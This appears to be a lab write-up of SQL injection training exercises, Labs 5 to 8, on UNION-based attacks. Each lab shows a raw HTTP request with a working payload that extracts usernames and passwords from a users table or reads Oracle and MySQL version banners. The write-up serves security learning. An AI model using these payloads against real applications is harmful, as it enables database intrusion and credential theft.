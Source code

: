 ## Lab - 5: SQL injection UNION attack, retrieving data from other tables

- The database contains a different table called `users`, with columns called `username` and `password`.
- Repeat the steps from above labs then find that there are 2 columns returning both with text columns

```
GET /filter?category=Gifts'+UNION+SELECT+username,password+FROM+users-- HTTP/1.1
```

---

## Lab - 6: SQL injection UNION attack, retrieving multiple values in a single column

- The database contains a different table called users, with columns called username and password.
- Repeat the steps from above labs and find that there are 2 columns in which second is the text column
- we need to extract 2 text columns, so

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- HTTP/1.1
```

---

# Examining the databases

## Lab - 7: SQL injection attack, querying the database type and version on Oracle

- Repeat the above step and find that there are 2 columns
- In Oracle database `UNION SELECT NULL,NULL` doesn't work
- Instead use `UNION SELECT NULL, NULL FROM dual`
- Both are text columns

```
GET /filter?category=Pets'+UNION+SELECT+'a',banner+FROM+v$version-- HTTP/1.1
```

---

## Lab - 8: SQL injection attack, querying the database type and version on MySQL and Microsoft

- `' ORDER BY 2--` doesn't work
- Instead use `' ORDER BY 2#` for comment

```
GET /filter?category=Lifestyle'+UNION+SELECT+@@version,NULL#
```

---